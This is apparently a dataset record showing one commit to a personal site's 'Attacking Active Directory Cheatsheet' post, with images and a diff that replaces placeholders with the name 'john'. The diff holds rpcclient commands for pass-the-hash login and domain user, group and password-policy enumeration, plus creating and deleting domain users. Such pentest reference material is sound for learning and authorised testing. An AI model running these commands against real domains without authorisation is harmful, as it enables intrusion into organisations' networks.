

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 4561 px. Shown: the whole window, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

```diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -157,11 +157,11 @@ rpcclient //172.16.150.10 -U vorkharium.com/john%1a06b4248879e68a498d3bac51bf91c
 srvinfo
 enumdomusers # Users
 enumpriv # Works like "whoami /priv"
-queryuser <user> # Detailed user info
+queryuser john # Detailed user info
 getuserdompwinfo <RID> # Password Policy, use the previous command "queryuser" to get the RID to run this command
-lookupnames <user> # SID of specified user
-createdomuser <username> # Create a new user
-deletedomuser <username> # Delete user
+lookupnames john # SID of specified user
+createdomuser john # Create a new user
+deletedomuser john # Delete user
 enumdomains
 enumdomgroups
 querygroup <group-RID> # Use the previous command "enumdomgroups" to get the RID to run this command
```
